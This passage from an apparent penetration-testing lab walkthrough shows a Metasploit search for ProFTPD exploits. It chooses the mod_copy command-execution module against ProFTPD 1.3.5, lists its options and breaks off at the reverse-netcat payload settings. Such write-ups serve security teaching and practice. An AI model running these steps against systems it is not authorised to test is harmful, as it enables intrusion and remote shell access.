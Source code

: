 With this new scan we can for example see that the port 3500 and 6697 open, and we can also see different files and folders.

## Identified Attack 1: ProFTPD

We can see that the port 21 is open with service **ftp** and version **ProFTPD 1.3.5**, so we perform a search on metasploit:

```bash
search proftpd
```

and we can see that:

```
Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   3  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   4  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution
   5  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
```

We will use 4 since it has a excellent rank and its more recent than 5 and also matches the version of the service, we will also check the options of the exploit:

```bash
use 4
show options
```

And based on the output:

```bash
Module options (exploit/unix/ftp/proftpd_modcopy_exec):                                                                                                                                    
                                                                                                                                                                                           
   Name       Current Setting  Required  Description                                                                                                                                       
   ----       ---------------  --------  -----------
   CHOST                       no        The local client address
   CPORT                       no        The local client port
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www         yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat):

```
